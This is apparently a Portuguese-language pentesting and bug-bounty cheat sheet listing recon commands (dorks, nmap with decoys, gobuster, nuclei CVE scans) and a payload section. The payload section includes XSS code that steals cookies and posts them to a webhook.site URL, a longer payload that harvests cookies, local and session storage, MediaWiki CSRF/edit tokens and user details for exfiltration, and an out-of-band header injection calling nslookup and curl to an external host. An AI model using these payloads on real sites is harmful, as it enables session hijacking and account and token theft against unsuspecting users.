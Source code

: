 # Umas paradas que uso de vez em quando e gosto de deixar salvo pra lembrar

---

### Dorks & Descoberta
* **Encontrar Programas de VDP (Vulnerability Disclosure Program):**
    ```
    "Vulnerability Disclosure Program" VDP "site:uk -bugbount -hackerone -intigriti -bugcrowd -yeswehack"
    ```
* **Repositório de Google Dorks:**
    * [Dorks Faisalahmed](https://dorks.faisalahmed.me/)

### Escaneamento de Rede e Subdomínios
* **Nmap - Scan DNS para vazamento de informações:**
    ```bash
    # Verifica o servidor DNS (porta 53/UDP) por possíveis exposições de dados sensíveis.
    nmap -sU -p 53 --script=dns-nsid 10.129.2.48
    ```
* **Nmap - Scan Avançado:**
    ```bash
    # Scan com detecção de versão (-sV), usando decoys (D RND:2), múltiplos tipos de scan e user-agent customizado.
    nmap 10.129.4.84 -sV -D RND:2 -Pn -sS -sU --max-retries=2 --script-args http.useragent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36" -p-
    ```
* **Descoberta de Diretórios com Gobuster:**
    ```bash
    # Força bruta de diretórios com headers customizados de Host e Cookie.
    gobuster dir -u https://teste.com -w /usr/share/wordlists/dirb/common.txt  -t 50 -H 'Cookie: ASP.NET_SessionId=whvgzv2plsyzvnglugu2kxyc;' -k -x html,php,js,aspx,bat,txt,zip
    ```

### Extensões úteis para Browser
* `dotgit`
* `Wappalyzer`
* `Shodan`
* `DNSlytics`


## Análise de Vulnerabilidades

Ferramentas para escanear ativamente por falhas de segurança conhecidas.

* **Instalação do ZAP (Zed Attack Proxy):**
    ```bash
    # Uma ótima ferramenta para scan de aplicações web.
    sudo apt install zaproxy
    ```
* **Nuclei - Scan de CVEs em subdomínios:**
    ```bash
    # Encontra subdomínios, verifica quais estão ativos e roda um template específico do Nuclei.
    subfinder -all -d alvo.com -recursive | httpx | nuclei -nmhe -t ./nuclei-templates/http/cves/(CVE)/CVE-2025-0133.yaml
    ```
* **Nuclei - Scan geral de CVEs:**
    ```bash
    nuclei -t cves/ -u [http://alvo.com] -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)"
    ```
* **Nuclei - Scan focado em tecnologia (ex: Moodle):**
    ```bash
    nuclei -u [https://alvo.com]) -tags moodle
    ```


## Payloads & Exploração

Snippets de código para explorar vulnerabilidades como XSS, SSRF, etc.

### Cross-Site Scripting (XSS)

* **Payload XSS Simples para Roubo de Cookies:**
    ```html
    <img src="x" onerror="fetch('[https://webhook.site/085d7083-a25c-41c6-beb6-113d2b58e605](https://webhook.site/085d7083-a25c-41c6-beb6-113d2b58e605)', {method:'POST', body:'<cookie>='+document.cookie})">
    ```
* **Bypass de filtro de iframe com xss onerror**
```
<img src="invalid" onerror="document.body.innerHTML+='<iframe src=https://emupedia.net/emupedia-game-doom1/asmjs/ width=500 height=400></iframe>'">
```
* **Payload XSS Avançado para Exfiltração de Dados:**
    * Este script captura cookies, `localStorage`, `sessionStorage`, tokens específicos de MediaWiki e informações do usuário, enviando tudo para um webhook.
    ```html
    <img src="invalid" onerror="
  var data = {
    cookies: document.cookie,
    localStorage: {},
    sessionStorage: {},
    mediawikiTokens: {},
    userInfo: {}
  };
  
  // Capturar todos os dados do localStorage
  for(var i=0; i<localStorage.length; i++) {
    var key = localStorage.key(i);
    data.localStorage[key] = localStorage.getItem(key);
  }
  
  // Capturar todos os dados do sessionStorage
  for(var i=0; i<sessionStorage.length; i++) {
    var key = sessionStorage.key(i);
    data.sessionStorage[key] = sessionStorage.getItem(key);
  }
  
  // Tenta obter tokens do MediaWiki especificamente
  try {
    if (typeof mw !== 'undefined' && mw.user && mw.user.tokens) {
      data.mediawikiTokens = {
        editToken: mw.user.tokens.get('editToken'),
        csrfToken: mw.user.tokens.get('csrfToken'),
        watchToken: mw.user.tokens.get('watchToken')
      };
    }
  } catch(e) {}
  
  // Informações do usuário
  try {
    if (typeof mw !== 'undefined' && mw.config) {
      data.userInfo = {
        userName: mw.config.get('wgUserName'),
        userId: mw.config.get('wgUserId'),
        pageName: mw.config.get('wgPageName'),
        canonicalNamespace: mw.config.get('wgCanonicalNamespace'),
        revisionId: mw.config.get('wgRevisionId'),
        articleId: mw.config.get('wgArticleId')
      };
    }
  } catch(e) {}
  
  fetch('https://webhook.site/ce0ff999-b412-490d-aa38-f946520e63b0', {
    method: 'POST',
    headers: {'Content-Type': 'application/json'},
    body: JSON.stringify(data)
  });
    ">

```

### Out-of-Band (OOB)

* **Payload OOB para testar em Headers (Blind SSRF, etc):**
    * Tenta forçar uma resolução DNS e uma requisição HTTP para um domínio externo. Útil para injetar em cabeçalhos como `User-Agent`, `Referer`, `X-Forwarded-For`, etc.
    ```bash
    # :r: é um placeholder para o valor que será injetado
    :r:nslookup -q=cname hitvibmacavit642a1.bxss.me|curl hitvibmacav
    ```

### Server local

```bash
python3 -m http.server 1234
ngrok http 1234

(pra se usar o ngrok precisa do http.server, porém só o http.server já server como server interno, o ngrok o deixa publico)
```
## Ferramentas & Recursos Adicionais

Links para repositórios e ferramentas úteis.

- [SHCheck - Shell/Header Vulnerability Checker](https://github.com/santoru/shcheck)
- [Converter imagem em link pub](https://pngup.com/)

